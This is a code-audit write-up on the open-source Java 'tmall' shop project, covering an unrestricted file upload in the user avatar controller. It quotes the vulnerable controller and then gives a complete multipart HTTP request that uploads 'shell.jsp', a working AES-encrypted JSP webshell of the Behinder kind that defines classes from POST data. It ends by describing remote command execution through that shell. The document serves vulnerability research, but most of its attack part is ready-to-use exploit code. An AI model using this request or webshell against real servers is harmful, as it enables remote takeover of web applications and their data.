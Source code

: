 #### src/main/java/com/xq/tmall/controller/fore/ForeUserController.java

​	Find the controller of file upload through upload, there are four controllers to implement the function of file upload, here choose a less difficult method, in fact, the control of four file uploads has the same vulnerability.

```java
    @ResponseBody
    @RequestMapping(value = "user/uploadUserHeadImage", method = RequestMethod.POST, produces = "application/json;charset=utf-8")
    public  String uploadUserHeadImage(@RequestParam MultipartFile file, HttpSession session
    ){
        String originalFileName = file.getOriginalFilename();
        logger.info("获取图片原始文件名：{}", originalFileName);
        String extension = originalFileName.substring(originalFileName.lastIndexOf('.'));
        String fileName = UUID.randomUUID() + extension;
        String filePath = session.getServletContext().getRealPath("/") + "res/images/item/userProfilePicture/" + fileName;
        logger.info("文件上传路径：{}", filePath);
        JSONObject jsonObject = new JSONObject();
        try {
            logger.info("文件上传中...");
            file.transferTo(new File(filePath));
            logger.info("文件上传成功！");
            jsonObject.put("success", true);
            jsonObject.put("fileName", fileName);
        } catch (IOException e) {
            logger.warn("文件上传失败！");
            e.printStackTrace();
            jsonObject.put("success", false);
        }
        return jsonObject.toJSONString();
    }
```

​	 This is a file upload implementation of a user avatar, and here we can find that the audit code here has modified the incoming file name, which means that there is no directory penetration here, but there is no verification of the suffix here. So there is an arbitrary file uploaded here, and the project also parses JSP, so it can also be transmitted to the shell. We locate the function point of the front-end avatar replacement, and after sending a random image, we construct the data packet.

```http
POST /tmall/user/uploadUserHeadImage HTTP/1.1
Host: 172.21.53.85:8080
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Referer: http://172.21.53.85:8080/tmall/userDetails
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTAJAUStFnEcoK7fY
Origin: http://172.21.53.85:8080
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=3B16C09E8A179A970E83C60845A3ED95; username=1209577113; admin-token=1#2F31733671566670654C7A6C432B6766575978556E4E58456F4554656B56596479727567522B483048444B544C5A4F5332736C4673556352716E516573486D535366716C76524751733336462F746D77657036476C516F4C493741783532773834364D74783071516B5079657A6856355766355970547677473254736F2F5165454A656B366857734474653154734B672F494A4A33773D3D
Content-Length: 2276

------WebKitFormBoundaryTAJAUStFnEcoK7fY
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: image/jpeg

<%@page import="java.util.*,java.io.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    private byte[] Decrypt(byte[] data) throws Exception
    {
        String k="e45e329feb5d925b";
        javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES/ECB/PKCS5Padding");c.init(2,new javax.crypto.spec.SecretKeySpec(k.getBytes(),"AES"));
        byte[] decodebs;
        Class baseCls ;
                try{
                    baseCls=Class.forName("java.util.Base64");
                    Object Decoder=baseCls.getMethod("getDecoder", null).invoke(baseCls, null);
                    decodebs=(byte[]) Decoder.getClass().getMethod("decode", new Class[]{byte[].class}).invoke(Decoder, new Object[]{data});
                }
                catch (Throwable e)
                {
                    baseCls = Class.forName("sun.misc.BASE64Decoder");
                    Object Decoder=baseCls.newInstance();
                    decodebs=(byte[]) Decoder.getClass().getMethod("decodeBuffer",new Class[]{String.class}).invoke(Decoder, new Object[]{new String(data)});

                }
        return c.doFinal(decodebs);

    }
%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return
        super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            byte[] buf = new byte[512];
            int length=request.getInputStream().read(buf);
            while (length>0)
            {
                byte[] data= Arrays.copyOfRange(buf,0,length);
                bos.write(data);
                length=request.getInputStream().read(buf);
            }
            /* 取消如下代码的注释，可避免response.getOutputstream报错信息，增加某些深度定制的Java web系统的兼容性
            out.clear();
            out=pageContext.pushBody();
            */
            out.clear();
            out=pageContext.pushBody();
        new U(this.getClass().getClassLoader()).g(Decrypt(bos.toByteArray())).newInstance().equals(pageContext);}
%>
------WebKitFormBoundaryTAJAUStFnEcoK7fY--
```

​	After sending the package, get the URL of the image and access the jsp file.

![image-20241224213640952](img/image-20241224213640952.png)

​	Access [172.21.53.85:8080/tmall/res/images/item/userProfilePicture/248f1f1d-aad8-43f6-8147-e9fd780f7ed4. jsp](http://172.21.53.85:8080/tmall/res/images/item/userProfilePicture/248f1f1d-aad8-43f6-8147-e9fd780f7ed4.jsp), find that there is no image parsing error, or download the file directly, that is, parsing jsp, after using the ice scorpion connection, the connection is successful, Run the calc command to eject the computer.

![image-20241224213823619](img/image-20241224213823619.png)